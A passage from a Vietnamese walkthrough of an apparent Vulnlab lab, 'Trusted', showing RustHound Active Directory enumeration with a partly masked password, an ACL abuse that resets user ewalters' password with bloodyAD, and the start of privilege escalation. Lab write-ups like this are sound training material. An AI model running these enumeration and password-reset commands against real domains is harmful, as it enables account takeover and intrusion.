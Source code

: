 Đến đây rồi, ta có thể dùng Bloodhound để xem các user, group, quyền hạn để hình dung dễ hơn rsmith có thể làm gì tiếp

```
╭─dwgth4i@kali in ~/vulnlab/trusted 
 ╰─λ rusthound -d lab.trusted.vl -u rsmith -p I********2 -n 10.10.193.214 --dns-tcp -f lab.trusted.vl -z
---------------------------------------------------
Initializing RustHound at 05:01:44 on 12/09/24
Powered by g0h4n from OpenCyber
---------------------------------------------------

[2024-12-09T13:01:44Z INFO  rusthound] Verbosity level: Info
[2024-12-09T13:01:45Z INFO  rusthound::ldap] Connected to LAB.TRUSTED.VL Active Directory!
[2024-12-09T13:01:45Z INFO  rusthound::ldap] Starting data collection...
[2024-12-09T13:01:47Z INFO  rusthound::ldap] All data collected for NamingContext DC=lab,DC=trusted,DC=vl
[2024-12-09T13:01:47Z INFO  rusthound::json::parser] Starting the LDAP objects parsing...
[2024-12-09T13:01:47Z INFO  rusthound::json::parser::bh_41] MachineAccountQuota: 10
[2024-12-09T13:01:47Z INFO  rusthound::json::parser] Parsing LDAP objects finished!
[2024-12-09T13:01:47Z INFO  rusthound::json::checker] Starting checker to replace some values...
[2024-12-09T13:01:47Z INFO  rusthound::json::checker] Checking and replacing some values finished!
[2024-12-09T13:01:47Z INFO  rusthound::json::maker] 8 users parsed!
[2024-12-09T13:01:47Z INFO  rusthound::json::maker] 55 groups parsed!
[2024-12-09T13:01:47Z INFO  rusthound::json::maker] 1 computers parsed!
[2024-12-09T13:01:47Z INFO  rusthound::json::maker] 5 ous parsed!
[2024-12-09T13:01:47Z INFO  rusthound::json::maker] 1 domains parsed!
[2024-12-09T13:01:47Z INFO  rusthound::json::maker] 2 gpos parsed!
[2024-12-09T13:01:47Z INFO  rusthound::json::maker] 21 containers parsed!
[2024-12-09T13:01:47Z INFO  rusthound::json::maker] .//20241209050147_lab-trusted-vl_rusthound.zip created!

RustHound Enumeration Completed at 05:01:47 on 12/09/24! Happy Graphing!
```

Và ta chỉ có đúng một ACE đối với user *ewalters*

![image](https://github.com/user-attachments/assets/44a0ab04-7066-4b81-b07a-a0063ae1215e)

Đến đây có rất nhiều cách để đổi mật khẩu, nhưng mình sẽ sử dụng bloodyAD

```
bloodyAD -u 'rsmith' -p 'I********2' -d 'lab.trusted.vl' --host 10.10.160.70 set password 'ewalters' 'password123!'
```

User này không có quyền gì thú vị ngoài việc có khả năng RDP và WINRM được vào DC của child domain.

![image](https://github.com/user-attachments/assets/dacb5c0b-d546-4e22-9a0c-f56392d8bc19)

# Privilege Escalation 

Đến đây, sau một thời gian khá lâu để enum thì không có gì ngoài việc ở ngoài folder C:\, ta có 1 mục AVTest khá lạ, bên trong ta sẽ có 1 file readme và 1 file PE32 (thật ra còn có flag troll ở desktop user *ewalters* nữa nhưng mà mình sẽ không nói đến :v)
